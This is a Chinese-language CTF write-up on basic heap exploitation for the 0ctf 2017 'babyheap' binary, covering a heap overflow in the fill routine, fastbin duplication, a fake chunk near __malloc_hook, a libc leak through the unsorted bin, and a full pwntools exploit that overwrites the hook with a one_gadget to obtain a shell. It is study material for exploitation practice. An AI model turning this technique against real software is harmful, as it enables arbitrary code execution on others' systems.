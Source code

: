 ```yaml
---
title: Basic-Heap-Exploitation
date: 2022-5-24
tags: 
- Pwn
- CTF

categories:
- CTF

toc: true # 是否启用内容索引
sidebar: none # 是否启用sidebar侧边栏，none：不启用
---
```






# The Basic of Heap Exploitation

基础堆漏洞利用:
主要知识点：

- fastbin_dup
- fake_chunk
- 劫持__malloc_hook



## babyheap_0ctf_2017

### 0x1 checksec

```bash
[*]
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

保护全开，堆题日常操作

### 0x2 Analysis

漏洞点：

```c
__int64 __fastcall sub_E7F(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (int)result >= 0 && (int)result <= 15 )
  {
    result = *(unsigned int *)(24LL * (int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
        //重新读取了一个size
      result = sub_138C();
      v3 = result;
      if ( (int)result > 0 )
      {
        printf("Content: ");
        return sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
  }
  return result;
}
```

在fill的实现函数中，填充的字符size是重新输入的，所以这个地方可以进行溢出



### 0x3 Process

1. 泄漏libc_base
2. 劫持__malloc_hooc(利用偏移)
3. getshell



### 0x4 Some Questions
- 利用偏移制造fake_chunk时,算错
- 泄漏的地址和__malloc_hook相对于libc_base的偏移都可以通过本地调试获取

### 0x4 exp

这个题是参考《CTF竞赛权威指南》进行的一个复现:

```python
from pwn import*


p = process('./babyheap')

context.log_level = 'debug'

def alloc(size):
    p.sendlineafter('Command: ','1')
    p.sendlineafter('Size: ',str(size))

def fill(idx,payload):
    p.sendlineafter('Command: ','2')
    p.sendlineafter('Index: ',str(idx))
    p.sendlineafter('Size: ',str(len(payload)))
    p.sendafter('Content: ',payload)

def free(idx):
    p.sendlineafter('Command: ','3')
    p.sendlineafter('Index: ',str(idx))

def dump(idx):
    p.sendlineafter('Command: ','4')
    p.sendlineafter('Index: ',str(idx))
    p.recvuntil('Content: \n')
    return p.recvline()

def fastbin_dup():
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
	
    payload = cyclic(0x10)
    payload+= p64(0) + p64(0x21)
    payload+= p64(0) + cyclic(0x8)
    payload+= p64(0) + p64(0x21)
    payload+= p8(0x80)
    fill(0,payload)
    //将2号chunk的fd指针改成最后一个大小0x80的4号chunk
    //利用第一个chunk偏移为0的特点在没有泄漏时实现(在实现了tcache机制的libc版本有所不同，系统会先分配一段空间给tcache使用)
    payload = cyclic(0x10)
    payload+= p64(0) + p64(0x21)
    fill(3,payload)
    //更改4号chunk的size区，使得其能绕过检查
    alloc(0x10)
    alloc(0x10)
    //在原4号chunk位置再分配

def leak_libc():
    global libc_base,malloc_hook

    payload = cyclic(0x10)
    payload+= p64(0) + p64(0x91)
    fill(3,payload)
    //4号chunksize改回来
    alloc(0x80)
    free(4)
    leak_addr = u64(dump(2)[:8])
    //释放后来到unsort_bin,fd和bk指向libc地址
    libc_base = leak_addr - 0x3c3b78
	
    malloc_hook = libc_base + 0x3c3b10

    log.info('leak add: 0x%x' % leak_addr)
    log.info('libc base: 0x%x' % libc_base)
    log.info('__malloc_hook add: 0x%x' % malloc_hook)

def pwn():
    alloc(0x60)
    free(4)
    fill(2,p64(malloc_hook - 0x28 + 0x5))
    //利用偏移伪造fake_chunk
    alloc(0x60)
    alloc(0x60)
    //分配到fake_chunk(malloc_hook 附近)
    one_gadget = libc_base + 0x4525a
    fill(6,p8(0)*0x13 + p64(one_gadget))
    //将one_gadget写入hook
    alloc(1)
    p.interactive()

if __name__=='__main__':
    fastbin_dup()
    leak_libc()
    pwn()

```


### 0x6 New Skills
- 利用偏移制造fake_chunk:
一般libc地址最高位为7f，符合fast_bin对size的检查
所以可以通过偏移，将此字节移动到size位实现

- 利用unsort_bin泄漏libc地址
当unsort_bin只有一个chunk时，其fd和bk都指向libc的地址，所以可以通过此，泄漏libc地址
一般需要能够在释放后仍然能够控制或读取此chunk
- 直接通过堆溢出制造实现UAF
核心：在没有tcache机制的的libc下，chunk固定从一个内存页面的开始部分进行分配，所以，对于分配的chunk的地址最后一个字节，是可以推算出来的